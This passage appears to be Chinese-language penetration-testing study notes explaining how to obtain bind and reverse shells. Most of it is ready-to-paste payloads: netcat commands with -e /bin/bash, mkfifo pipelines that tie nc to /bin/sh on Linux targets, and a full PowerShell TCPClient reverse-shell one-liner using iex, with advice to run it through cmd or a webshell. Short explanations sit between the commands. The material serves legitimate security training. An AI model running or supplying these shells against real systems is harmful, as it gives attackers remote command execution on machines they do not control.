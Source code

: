 例如，在目标机上设置监听器时：

```shell
nc -lvnp <PORT> -e /bin/bash
```

用 netcat 连接到上面的监听器将在目标上产生一个绑定 shell。

同样，对于反向 shell，在目标机上执行以下命令：

```shell
nc <LOCAL-IP> <PORT> -e /bin/bash
```

目标机将回连攻击机上的监听器，这样会产生一个反向 shell。

但是，大多数版本的 netcat 都不包含此功能（指 -e选项），因为人们普遍认为它非常不安全。 在几乎总是需要静态二进制文件的 Windows目标机上，以上技巧（指 -e选项）将完美运行；然而，在 Linux的目标机上，我们将改为使用以下代码为绑定 shell 创建一个监听器：

```shell
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f     #在linux目标机上执行
```

以下段落是此命令的技术说明——命令本身才是最重要的。

该命令首先会在 /tmp/f 处创建命名管道（FIFO--First In，First Out），然后它启动一个 netcat 监听器，并将监听器的输入连接到命名管道的输出。netcat 监听器的输出（即我们发送的命令）再直接通过管道（管道符" | "）传输到 sh，将 stderr 输出流发送到 stdout，并将 stdout 本身发送到命名管道的输入，从而完成循环。

关于命名管道的介绍：https://www.linuxjournal.com/article/2156

![image-20221007190553545](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007190553545.png)

一个非常类似的命令可以用来发送 netcat 反向 shell:

```shell
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f     #在linux目标机上执行
```

这个命令实际上与前一个命令相同，只是此命令将使用 netcat 主动连接语法，而不是使用 netcat 监听语法。(下图示例中的左侧使用了自定义别名)

![image-20221007191048181](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007191048181.png)

当目标是一个现代的 Windows Server 时，建立 Powershell 反向 shell 是非常常见的，因此我们将在这里介绍标准的一行 PSH 反向 shell。

这个命令非常复杂，因此为了简单起见，这里不会直接解释它，记住，这是一行非常有用的命令:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

为了使用它，我们需要用适当的 IP 和端口选择来替换"`<IP>`" 和 "`<port>`"，然后将其复制到 cmd.exe shell中并执行该命令（或者使用 在 Windows 服务器上执行命令的另一种方法，例如 webshell），从而生成反向 shell：

![image-20221007192231180](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007192231180.png)

对于其他常见的反向 shell 有效载荷，可以参考PayloadsAllTheThings存储库，其中包含了多种不同语言的 shell 代码（通常以单行格式进行复制和粘贴）。
